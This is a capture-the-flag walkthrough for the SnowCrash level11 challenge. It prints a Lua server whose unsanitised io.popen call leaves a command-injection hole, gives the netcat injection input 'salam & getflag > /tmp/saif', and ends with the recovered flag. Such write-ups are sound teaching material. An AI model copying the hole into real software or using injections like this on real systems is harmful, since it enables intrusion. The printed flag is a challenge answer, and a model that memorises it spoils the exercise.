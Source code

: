 
# SnowCrash Level11 Walkthrough

This walkthrough explains how we exploited a command injection vulnerability in a Lua script to retrieve the flag for `level11`.

---

## 🧭 Step 1: Exploring the Environment

We start by listing the contents of the home directory:

```bash
level11@SnowCrash:~$ ls
level11.lua
```

We discover a Lua script. This is the main file we will examine.

---

## 📖 Step 2: Reviewing the Lua Script

We read the script to understand how it behaves:

```bash
level11@SnowCrash:~$ cat level11.lua
```

It reveals the following:

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)
  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n")
      else
          client:send("Gz you dumb*\n")
      end
  end
  client:close()
end
```

### 🔍 Explanation:

- A socket server listens on `127.0.0.1:5151`.
- It asks for a password and hashes the input using `sha1sum`.
- If the hash matches the hardcoded hash, it returns a success message.

⚠️ **Vulnerability:**  
The script uses `io.popen("echo "..pass.." | sha1sum")`, which **does not sanitize input** — this allows **command injection** by closing the string and appending shell commands.

---

## 🚀 Step 3: Exploiting the Vulnerability

We connect to the vulnerable socket using Netcat:

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: salam & getflag > /tmp/saif
Erf nope..
```

### 🔍 Explanation:

- `salam` is an arbitrary string.
- The `&` lets us execute an additional command: `getflag > /tmp/saif`.
- Even though the password is incorrect, the shell command executes because of command injection.

---

## 📄 Step 4: Reading the Flag

We then check the file where we redirected the output:

```bash
level11@SnowCrash:~$ cat /tmp/saif
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

Success!

---

## ✅ Summary

- Found a Lua script using insecure shell execution (`io.popen`).
- Injected a system command via Netcat to trigger `getflag`.
- Retrieved the flag from a temporary file.

---

### 🎯 **Flag:** `fa6v5ateaw21peobuub8ipe6s`
